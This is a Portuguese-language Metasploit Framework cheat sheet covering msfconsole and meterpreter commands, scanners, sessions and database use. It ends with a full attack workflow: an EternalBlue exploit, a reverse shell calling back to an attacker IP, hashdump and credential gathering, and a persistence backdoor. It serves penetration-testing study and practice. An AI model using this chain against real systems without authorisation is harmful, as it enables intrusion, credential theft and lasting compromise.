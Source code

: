 ## O que é o Metasploit Framework?
**Metasploit** é uma plataforma de teste de penetração que permite encontrar, explorar e validar vulnerabilidades em diversos sistemas.

### Inicialização
```bash
# Iniciar o Metasploit Console
msfconsole

# Iniciar com configurações específicas
msfconsole -q  # Modo silencioso
msfconsole -r /path/to/resource.rc  # Executar script de recursos
```

## Comandos Principais do MSFConsole

### Comandos Básicos de Navegação
```msf
help ou ?              # Mostrar ajuda geral
help <comando>         # Ajuda específica de um comando
banner                 # Mostrar banner do Metasploit
version                # Mostrar versão
history                # Histórico de comandos
exit ou quit           # Sair do Metasploit
```

### Comandos de Módulos
```msf
show exploits          # Listar todos os exploits
show payloads          # Listar todos os payloads
show auxiliary         # Listar módulos auxiliares
show encoders          # Listar encoders
show nops              # Listar NOP generators
show options           # Mostrar opções do módulo atual
show advanced          # Mostrar opções avançadas
show targets           # Mostrar alvos suportados
show missing           # Mostrar opções obrigatórias não configuradas
```

### Gerenciamento de Módulos
```msf
use <caminho/do/modulo>    # Carregar um módulo
back                       # Voltar ao contexto anterior
search <termo>             # Buscar módulos
  search type:exploit platform:windows
  search cve:2023-1234
  search name:eternalblue
info <modulo>              # Informações detalhadas do módulo
reload_all                 # Recarregar todos os módulos
```

### Configuração de Exploits
```msf
# Após usar um exploit (ex: use exploit/windows/smb/ms17_010_eternalblue)
set RHOSTS 192.168.1.100   # Definir host alvo
set RPORT 445              # Definir porta
set LHOST 192.168.1.50     # Definir IP local (para reverse shell)
set LPORT 4444             # Definir porta local
set TARGET 0               # Definir alvo específico
set PAYLOAD windows/meterpreter/reverse_tcp  # Definir payload
set VERBOSE true           # Modo verboso
set THREADS 10             # Definir número de threads
show options               # Verificar configurações
```

### Execução e Exploração
```msf
exploit ou run           # Executar o exploit
exploit -j               # Executar como job em background
exploit -z               # Executar sem interação após sucesso
check                    # Verificar se alvo é vulnerável (quando disponível)
```

## Meterpreter - Comandos Essenciais

### Comandos Básicos do Meterpreter
```meterpreter
help                     # Mostrar ajuda do Meterpreter
sysinfo                  # Informações do sistema
getuid                   # Mostrar usuário atual
getpid                   # Mostrar ID do processo
ps                       # Listar processos
kill <PID>               # Matar processo
shell                    # Obter shell do sistema
background               # Colocar sessão em background
sessions                 # Listar sessões ativas
sessions -i <ID>         # Interagir com sessão específica
exit                     # Sair do Meterpreter
```

### Comandos de Sistema de Arquivos
```meterpreter
pwd ou getwd             # Diretório atual
ls ou dir                # Listar arquivos
cd <diretório>           # Mudar diretório
cat <arquivo>            # Mostrar conteúdo do arquivo
download <remoto> <local> # Baixar arquivo
upload <local> <remoto>  # Upload de arquivo
edit <arquivo>           # Editar arquivo
rm ou del <arquivo>      # Remover arquivo
mkdir <diretório>        # Criar diretório
rmdir <diretório>        # Remover diretório
```

### Comandos de Rede
```meterpreter
ipconfig ou ifconfig     # Informações de rede
route                    # Tabela de roteamento
portfwd                  # Encaminhamento de portas
  portfwd add -l 3389 -p 3389 -r <IP_alvo>
arp                      # Tabela ARP
netstat                  # Conexões de rede
```

### Comandos de Privilégios e Persistência
```meterpreter
getsystem                # Tentar elevar privilégios
run post/windows/escalate/getsystem  # Alternativa para escalação
run post/multi/manage/shell_to_meterpreter  # Converter shell para meterpreter
run persistence -h       # Módulo de persistência
run post/windows/manage/migrate      # Migrar para outro processo
hashdump                 # Extrair hashes de senha
run post/windows/gather/credentials  # Coletar credenciais
```

## Módulos Auxiliares

### Scanners
```msf
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 1-1000
run

use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/http/http_version
```

### Coleta de Informações
```msf
use auxiliary/gather/dns_enum
use auxiliary/gather/netbios_nat_enum
use auxiliary/gather/shodan_search
```

### Testes de Vulnerabilidade
```msf
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/ssl/heartbleed
```

## Gerenciamento de Sessões

```msf
sessions                 # Listar todas as sessões
sessions -l              # Listar sessões com detalhes
sessions -i <ID>         # Interagir com sessão específica
sessions -k <ID>         # Encerrar sessão específica
sessions -K              # Encerrar todas as sessões
sessions -u <ID>         # Fazer upgrade para Meterpreter
sessions -c <comando>    # Executar comando em todas as sessões
```

## Gerenciamento de Jobs

```msf
jobs                     # Listar jobs ativos
jobs -l                  # Listar jobs com detalhes
jobs -k <ID>             # Parar job específico
jobs -K                  # Parar todos os jobs
```

## Comandos de Banco de Dados

```msf
db_status                # Verificar status do banco de dados
db_connect               # Conectar ao banco de dados
workspace                # Gerenciar workspaces
  workspace              # Listar workspaces
  workspace <nome>       # Mudar para workspace
  workspace -a <nome>    # Adicionar workspace
  workspace -d <nome>    # Remover workspace
hosts                    # Listar hosts no banco de dados
services                 # Listar serviços descobertos
vulns                    # Listar vulnerabilidades
loot                     # Listar dados coletados
notes                    # Listar notas
```

## Comandos Úteis para Desenvolvimento

```msf
check                   # Testar módulo sem explorar
reload                  # Recarregar módulo atual
edit                    # Editar módulo atual com $EDITOR
irb                     # Iniciar console Ruby interativo
resource <script.rc>    # Executar script de recursos
makerc <arquivo>        # Salvar comandos atuais em arquivo .rc
```

## Exemplo de Fluxo de Trabalho Completo

```msf
# 1. Iniciar Metasploit
msfconsole

# 2. Buscar módulo
search eternalblue

# 3. Usar exploit
use exploit/windows/smb/ms17_010_eternalblue

# 4. Configurar opções
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
set LPORT 4444

# 5. Verificar configurações
show options

# 6. Executar
exploit

# No Meterpreter:
# 7. Coletar informações
sysinfo
getuid

# 8. Migrar para processo estável
run post/windows/manage/migrate

# 9. Coletar hashes
hashdump

# 10. Criar persistência
run persistence -U -i 10 -p 443 -r 192.168.1.50

# 11. Colocar em background
background

# 12. Trabalhar com outras sessões
sessions -l
```

## Dicas Importantes

1. **Sempre atualize**: `sudo snap refresh metasploit-framework`
2. **Use workspaces** para organizar diferentes projetos
3. **Documente tudo** com notes no banco de dados
4. **Teste em ambiente controlado** antes de usar em produção
5. **Mantenha o sistema atualizado** com `msfupdate`
